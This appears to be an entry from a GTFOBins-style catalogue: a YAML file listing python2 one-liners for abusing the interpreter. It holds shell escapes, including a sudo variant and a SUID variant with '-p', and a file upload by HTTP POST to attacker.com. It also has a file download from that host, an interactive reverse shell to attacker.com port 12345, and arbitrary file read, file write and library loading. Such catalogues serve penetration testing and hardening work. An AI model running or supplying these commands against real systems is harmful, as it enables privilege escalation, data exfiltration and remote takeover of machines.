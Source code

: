 ```yaml
---
functions:
  execute-interactive:
    - code: python2 -c 'import os; os.system("/bin/sh")'
  sudo-enabled:
    - code: sudo python2 -c 'import os; os.system("/bin/sh")'
  suid-enabled:
    - code: ./python2 -c 'import os; os.system("/bin/sh -p")'
  upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        python2 -c 'import urllib as u,urllib2 as u2,os.environ as e; u2.urlopen(u2.Request(e["URL"],u.urlencode({"d":open(e["LFILE"]).read()})))'
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        python2 -m SimpleHTTPServer $LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        python2 -c 'import urllib as u,os.environ as e;u.urlretrieve(e["URL"], e["LFILE"])'
  reverse-shell-interactive:
    - description: Run <code>socat file:`tty`,raw,echo=0 tcp-listen:12345</code> on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        python2 -c 'import sys,socket,os,pty;s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/sh")'
  file-read:
    - code: python2 -c 'open("file_to_read").read()'
  file-write:
    - code: python2 -c 'open("file_to_write","w+").write("data")'
  load-library:
    - code: python2 -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
---
```

